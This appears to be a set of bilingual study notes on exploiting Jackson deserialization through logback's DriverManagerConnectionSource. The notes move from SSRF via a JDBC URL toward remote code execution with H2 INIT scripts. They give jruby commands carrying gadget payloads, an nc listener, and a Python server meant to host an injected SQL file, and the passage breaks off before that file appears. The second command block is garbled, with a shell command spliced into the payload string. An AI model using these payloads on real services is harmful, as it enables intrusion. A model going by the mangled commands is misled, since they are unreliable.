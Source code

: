 
> SSRF攻击中并不需要使用h2库，因为大多数Java应用至少会加载一个JDBC驱动。
> JDBC Drivers are classes that, when a JDBC url is passed in, are automatically instantiated and the full URL is passed to them as an argument.

call the previous script with the aforementioned classpath.

```bash
$ jruby test.rb "["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:"}]"
```

1. Jackson will recursively 递归地 call all of the setters with the key contained inside the subobject. the `setUrl(String url)` is called with arguments by the **Jackson reflection library**.
2. the full object is serialized into a JSON object again.
3. At this point all the fields are serialized directly, if no getter is defined, or through an explicit getter.
4. When the `getConnection` is called, an `in memory database` is instantiated.
   1. Since the application is short lived, won’t see any meaningful effect from the attacker’s perspective.
   2. to do something meaningful, create a connection to a remote database.
   3. If the target application is deployed as a remote service, an attacker can generate a Server Side Request Forgery (SSRF).


```bash
$ jruby test.rb "["ch.qos.logback.core.db.DriverManagerConnectionSource $ nc -lv 8080 rce", {"url":"jdbc:h2:tcp://localhost:8080/~/test"}]"  ~/test#jdbc:h2:tcp://localhost:8080/~/test_
# Mapping
# Serializing
# objectified
```

---

## 0x04 从SSRF到RCE

这些攻击场景都与DoS以及SSRF有关,可能影响应用的安全性

将SSRF转换成完成的RCE攻击链。
- to gain full code execution in the context of the application
- employed the capability of `loading the H2 JDBC Driver`
  - H2
    - a super fast SQL database
    - usually employed as **in memory replacement** for full-fledged SQL Database Management Systems
      - such as Postgresql, MSSql, MySql or OracleDB
    - easily configurable and supports many modes
      - such as in memory, on file, and on remote servers.
    - **can run SQL scripts from the JDBC URL**
      - which for have an in-memory database to support `init migrations`.

> This alone won’t allow execute Java code inside the JVM context.
> but H2 was implemented inside the JVM, has the capability to `specify custom aliases containing java code`.
> - **which can abuse to execute arbitrary code**.

通过python构建一个简单的HTTP服务器
- `python -m SimpleHttpServer`
- 托管如下inject.sql INIT文件：
